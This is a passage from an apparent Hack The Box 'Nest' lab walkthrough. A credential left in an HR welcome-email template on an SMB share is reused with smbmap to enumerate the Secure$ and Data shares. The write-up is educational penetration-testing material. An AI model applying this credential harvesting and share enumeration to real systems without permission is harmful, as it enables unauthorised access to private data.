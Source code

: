 ```
kali@kali:~/htb/boxes/nest/smb$ cat "Shared\\Templates\\HR\\Welcome Email.txt" 
We would like to extend a warm welcome to our newest member of staff, <FIRSTNAME> <SURNAME>

You will find your home folder in the following location: 
\\HTB-NEST\Users\<USERNAME>

If you have any issues accessing specific services or workstations, please inform the 
IT department and use the credentials below until all systems have been set up for you.

Username: TempUser
Password: welcome2019


Thank you
HR
```
Sweet - we got ourselves credentials for `TempUser`. Let's try `smbmap` with `TempUser` again, and see if anything new appears (that we couldn't access earlier).
```
kali@kali:~/htb/boxes/nest/smb$ smbmap -H nest.htb -u 'TempUser' -p 'welcome2019'
[+] IP: nest.htb:445    Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        Secure$                                                 READ ONLY
        Users                                                   READ ONLY
```
A new share called `Secure$` appears with read-only permissions. Let's look inside it the same way:
```
kali@kali:~/htb/boxes/nest/smb$ smbmap -H nest.htb -u 'TempUser' -p 'welcome2019' -R "Secure$"
[+] IP: nest.htb:445    Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Secure$                                                 READ ONLY
        .\Secure$\*
        dr--r--r--                0 Wed Aug  7 16:08:12 2019    .
        dr--r--r--                0 Wed Aug  7 16:08:12 2019    ..
        dr--r--r--                0 Wed Aug  7 12:40:25 2019    Finance
        dr--r--r--                0 Wed Aug  7 16:08:12 2019    HR
        dr--r--r--                0 Thu Aug  8 03:59:25 2019    IT
```
We see `smbmap`'s recursive search didn't find much for us here - no documents that we can read. Let's recurse inside `Data`, and see if we can find anything new:
```
kali@kali:~/htb/boxes/nest/smb$ smbmap -H nest.htb -u 'TempUser' -p 'welcome2019' -R "Data"
[+] IP: nest.htb:445    Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Data                                                    READ ONLY
        .\Data\*
        dr--r--r--                0 Wed Aug  7 15:53:46 2019    .
        dr--r--r--                0 Wed Aug  7 15:53:46 2019    ..
        dr--r--r--                0 Wed Aug  7 15:58:07 2019    IT
        dr--r--r--                0 Mon Aug  5 14:53:41 2019    Production
        dr--r--r--                0 Mon Aug  5 14:53:50 2019    Reports
        dr--r--r--                0 Wed Aug  7 12:07:51 2019    Shared
        .\Data\IT\*
        dr--r--r--                0 Wed Aug  7 15:58:07 2019    .
        dr--r--r--                0 Wed Aug  7 15:58:07 2019    ..
        dr--r--r--                0 Wed Aug  7 15:58:07 2019    Archive
        dr--r--r--                0 Wed Aug  7 15:59:34 2019    Configs
```